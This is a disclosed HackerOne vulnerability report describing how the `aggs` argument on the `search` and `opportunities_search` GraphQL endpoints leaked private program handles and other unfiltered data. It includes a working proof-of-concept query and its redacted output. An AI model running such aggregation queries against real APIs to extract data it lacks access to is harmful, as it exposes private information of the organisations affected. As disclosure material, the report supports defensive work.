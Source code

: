 # Private information exposed through GraphQL search endpoints aggregates

## Report Details
- **Report ID**: 1838329
- **URL**: https://hackerone.com/reports/1838329
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-01-18T13:13:54.808Z
- **Disclosed**: 2023-01-19T16:04:16.134Z

## Reporter
- **Username**: reigertje
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
**Summary:**

Private information can be exposed using `aggs` argument on the `search` and `opportunities_search` endpoints on the GraphQL root node.  

**Description:**

When using the `aggs` argument and return field on the `search` and `opportunities_search` endpoints, the data returned in the `aggs` can potentially contain private information. It can for example be used to expose handles of private programs, and other data that can be aggregated by. 
 
### Steps To Reproduce

Specific example to expose private team handles, but other things can be exposed in the same way using this or other indexes on the `search` endpoint.

1.  Open and run any GraphQL client, or modify an existing GraphQL request
2.  Run a query with an aggregate for a field which could contain private information. The provided query can be tweaked to get more specific results.
```
# Write your query or mutation here
query {
  me {
    id
  }
  opportunities_search(query:{}, aggs:{results:{terms: {field:"handle"}}}) {
    aggs
  }
}
```

3.  The output will show aggregations by the `handle` which are not filtered on whether they are private or not. 

```
{
  "data": {
    "me": null,
    "opportunities_search": {
      "aggs": {
        "results": {
          "doc_count_error_upper_bound": 0,
          "sum_other_doc_count": 37,
          "buckets": [
            {
              "key": "private",
              "doc_count": 1
            },
            {
              "key": "private",
              "doc_count": 1
            },
            {
              "key": "private",
              "doc_count": 1
            },
            {
              "key": "private",
              "doc_count": 1
            },
            {
              "key": "private",
              "doc_count": 1
            },
            {
              "key": "private",
              "doc_count": 1
            },
            {
              "key": "private",
              "doc_count": 1
            },
            {
              "key": "private",
              "doc_count": 1
            },
            {
              "key": "private",
              "doc_count": 1
            },
            {
              "key": "private",
              "doc_count": 1
            }
          ]
        }
      }
    }
  }
}
```

## Impact

Impact depends on what information is stored in which index, and which fields can be aggregated by. In the current situation at least allows to expose asset information, handles and other information of teams you don't have access to.

## Attachments
No attachments
